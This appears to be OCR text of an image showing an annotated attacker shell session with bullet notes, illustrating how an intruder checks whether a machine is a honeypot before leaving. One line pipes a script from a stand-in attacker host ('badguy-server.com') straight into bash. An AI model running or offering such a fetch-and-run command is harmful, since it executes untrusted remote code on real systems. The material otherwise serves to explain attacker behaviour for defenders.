 ```bash
(Not much open... hmm...)

# Suspicious: very few services running!

# Check hardware details
$ lshw -short
H/W path        Device      Class          Description
=======================================================
system                      Computer
/0                          Motherboard
/0/0                        CPU             Virtual CPU

# Realize: It’s a VM! Might be a trap!

# Try to ping an external site
$ ping -c 1 8.8.8.8
PING 8.8.8.8 (8.8.8.8): 56 data bytes
64 bytes from 8.8.8.8: icmp_seq=0 ttl=117 time=12.3 ms

# External network works fine.

# Try uploading a small script to test filesystem behavior
$ echo "test" > testfile.txt
$ cat testfile.txt
test

# Test file permissions
$ touch /root/test
touch: cannot touch '/root/test': Permission denied

# Hmmm... strange permissions.

# Get suspicious. Try to run a fake local exploit to "scare" admins
$ curl http://badguy-server.com/fake-exploit.sh | bash

# Wait and see if anyone kicks them out manually

# Pause... looking for response...

# No response.

# Decide: "this might be a honeypot" — LEAVE
$ exit
```

* First the attacker tested to see if the environment was real.
  * Checked disk size, running services, hardware info.
* The machine was too clean!
* Before downloading the malware, attacker tried to run a file to see what would happen.
  * Nothing happened, decided it is a honeypot and left.

---